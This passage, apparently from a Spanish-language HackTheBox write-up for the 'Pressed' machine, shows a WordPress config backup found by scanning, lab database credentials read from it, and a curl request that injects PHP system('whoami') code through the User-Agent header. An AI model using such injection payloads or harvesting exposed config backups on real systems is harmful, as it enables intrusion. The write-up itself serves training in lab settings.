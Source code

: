 Encuentra un backup del ```wp-config.php```

```null
[!] http://pressed.htb/wp-config.php.bak
 | Found By: Direct Access (Aggressive Detection)
 ```

Lo descargo, y dentro hay credenciales de acceso a la base de datos

```null
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'admin' );

/** Database password */
define( 'DB_PASSWORD', 'uhc-jan-finals-2021' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```

Una sección de la web reporta los User-Agent de todas las peticiones que se han tramitado

<img src="/writeups/assets/img/Pressed-htb/2.png" alt="">

Tramito una petición modificando mi User-Agent, pero no interpreta el código PHP

```null
curl -s -X GET http://10.10.11.142/ -H 'User-Agent: <?php system("whoami"); ?>'
```

